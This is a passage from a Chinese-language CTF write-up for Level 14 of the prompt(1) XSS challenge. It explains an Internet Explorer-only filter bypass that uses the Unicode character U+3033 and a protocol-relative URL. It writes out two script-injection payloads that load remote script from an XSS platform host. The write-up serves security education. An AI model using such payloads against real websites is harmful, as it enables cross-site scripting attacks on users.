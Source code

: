 
------------

### 黑魔法：MSIE

**这种解题方法只能在 MSIE（Microsoft IE）中使用**，而且版本要求是 IE 10 以上。

关键在于使用 Unicode 编码绕过题目的 `//` 过滤，在 IE 10 中，第二个正斜杠是允许使用 Unicode 的 `〳` 代替的。

> 注：[`〳` 其实就是中文的笔画符号【撇】，编码是 U+3033](https://www.compart.com/en/unicode/U+3033)

利用[前面](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2014%20-%20Base64#%E5%88%A9%E7%94%A8-xss-%E5%B9%B3%E5%8F%B0%E5%AE%8C%E6%88%90%E6%8C%91%E6%88%98)已经在 XSS 平台构造好的项目地址（[http://xss.tf/tOH](http://xss.tf/tOH)），构造 payload 如下：

```html
"><script/src="/〳xss.tf/tOH
```

注意到除了利用 Unicode 编码绕过 `//` 过滤，还通过隐去 `http:` 绕过了 `\w:` 过滤。

之所以可以隐去 `http:` ，是因为在 html 的 `src` 属性中可以使用 [相对协议地址](http://blog.httpwatch.com/2010/02/10/using-protocol-relative-urls-to-switch-between-http-and-https/) 原理：此时前端获取资源时会根据所访问 URL 的协议而自适应（即自动识别 http 或 https）。

但是这个 payload 因为引用的是外部资源，所以虽然我们在 XSS 平台 [http://xss.tf/tOH](http://xss.tf/tOH) 构造好了 `prompt(1)` ，但是它并不会被执行。

为此可以修改 payload 为：

```html
"><script/async/src="/〳xss.tf/tOH
```

看到加了 `async` 属性，其效果是一旦 `src` 引用的脚本资源可用，就会异步执行。

在 IE 10 或 IE 11 上输入这个 payload ，完成挑战：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/18.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
